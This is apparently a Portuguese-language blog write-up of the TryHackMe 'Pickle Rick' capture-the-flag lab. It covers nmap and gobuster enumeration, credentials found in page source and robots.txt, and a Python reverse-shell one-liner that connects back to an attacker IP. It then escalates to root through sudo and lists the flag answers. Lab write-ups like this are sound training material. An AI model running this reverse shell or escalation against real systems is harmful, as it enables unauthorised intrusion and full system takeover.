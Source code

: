 ```yaml
---
description: CTF do TryhackME como fiz e anotações.
title: TryHackMe - Pickle Rick - Fácil
date: 2024-01-13 00:47:00 +/-0300
categories: [CTF, TryHackMe]
tags: [ctf, tryhackme, linux, SUID, web, facil]     # TAG names should always be lowercase
show_image_post: true
---
```


![piclericky](/assets/img/pickrick3.jpg){: w="100" h="100" .left}

---
# CTF Pickle Rick - Fácil
---
---
## Enumeração

### nmap 

```shell
sudo nmap -sS -Pn -n --disable-arp-ping --stats-every=7s -sVC 10.10.13.28 -T4

tarting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-11 01:22 EST
Stats: 0:00:07 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 99.99% done; ETC: 01:22 (0:00:00 remaining)
Stats: 0:00:14 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 01:22 (0:00:06 remaining)
Stats: 0:00:21 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 93.75% done; ETC: 01:22 (0:00:00 remaining)
Nmap scan report for 10.10.13.28
Host is up (0.25s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 58:a9:c6:8e:d9:b8:20:47:8c:f1:e4:48:64:d2:56:85 (RSA)
|   256 e1:42:f1:cb:9f:a7:77:6c:04:06:4a:92:bf:0f:0c:e2 (ECDSA)
|_  256 e8:61:39:6b:3e:38:4d:ec:bd:81:6f:73:4c:c1:31:ca (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.63 seconds

```
{: .nolineno }



É um website

Encontrado no código fonte da paginal inicial

```text
<!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```
{: .nolineno }
### gobuster

```shell
gobuster dir -u http://10.10.13.28 -t 100  -w  /usr/share/wordlists/dirb/big.txt -r --no-error -e  -x php,txt,old

==============================================================
Starting gobuster in directory enumeration mode
===============================================================
http://10.10.13.28/.php                 (Status: 403) [Size: 290]
http://10.10.13.28/.htpasswd.php        (Status: 403) [Size: 299]
http://10.10.13.28/.htpasswd            (Status: 403) [Size: 295]
http://10.10.13.28/.hta.old             (Status: 403) [Size: 294]
http://10.10.13.28/.hta                 (Status: 403) [Size: 290]
http://10.10.13.28/.hta.txt             (Status: 403) [Size: 294]
http://10.10.13.28/.htaccess.php        (Status: 403) [Size: 299]
http://10.10.13.28/.htaccess            (Status: 403) [Size: 295]
http://10.10.13.28/.hta.php             (Status: 403) [Size: 294]
http://10.10.13.28/.htaccess.old        (Status: 403) [Size: 299]
http://10.10.13.28/.htaccess.txt        (Status: 403) [Size: 299]
http://10.10.13.28/.htpasswd.old        (Status: 403) [Size: 299]
http://10.10.13.28/.htpasswd.txt        (Status: 403) [Size: 299]
http://10.10.13.28/assets               (Status: 200) [Size: 2190]
http://10.10.13.28/denied.php           (Status: 200) [Size: 882]
http://10.10.13.28/index.html           (Status: 200) [Size: 1062]
http://10.10.13.28/login.php            (Status: 200) [Size: 882]
http://10.10.13.28/portal.php           (Status: 200) [Size: 882]
http://10.10.13.28/robots.txt           (Status: 200) [Size: 17]
http://10.10.13.28/robots.txt           (Status: 200) [Size: 17]
http://10.10.13.28/server-status        (Status: 403) [Size: 299]
Progress: 18456 / 18460 (99.98%)
```
{: .nolineno }
login page encontrada http://10.10.13.28/login.php


```text
robots.txt

Wubbalubbadubdub
```
{: .nolineno }
index of em /assets contendo apenas algumas imagens e scripts

![indexoff](/assets/img/picklerick1.png)

## Acesso

login efetuado com sucesso 

Login: R1ckRul3s
Senha: Wubbalubbadubdub

http://10.10.13.28/portal.php

WebShell após o login

![webshell](/assets/img/picklerick2.png)

Permitido executar alguns comandos,os outro menus são bloqueados e direcionado para
http://10.10.13.28/denied.php

### Reverse Shell

Listei necat e executei shell reverse  nesta pagina

```python
export RHOST="10.6.125.125";export RPORT=4443;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```
{: .nolineno }

Primeira flag encontrada

```shell
www-data@ip-10-10-165-48:/var/www/html$ cat Sup3rS3cretPickl3Ingred.txt
cat Sup3rS3cretPickl3Ingred.txt
mr. meeseek hair
```
{: .nolineno }
## Escalação de Privilégio

```shell
sudo -l
Matching Defaults entries for www-data on
    ip-10-10-165-48.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-165-48.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
www-data@ip-10-10-165-48:/home/rick$ sudo /bin/bash
sudo /bin/bash
root@ip-10-10-165-48:/home/rick# 
```
{: .nolineno }
### Segunda Flag

```shell
root@ip-10-10-165-48:/home/rick# cat "second ingredients"
cat "second ingredients"
1 jerry tear
root@ip-10-10-165-48:/home/rick# 
```
{: .nolineno }
### Terceira Flag

```shell
root@ip-10-10-165-48:~# cat 3rd.txt
cat 3rd.txt
3rd ingredients: fleeb juice
root@ip-10-10-165-48:~# 
```
{: .nolineno }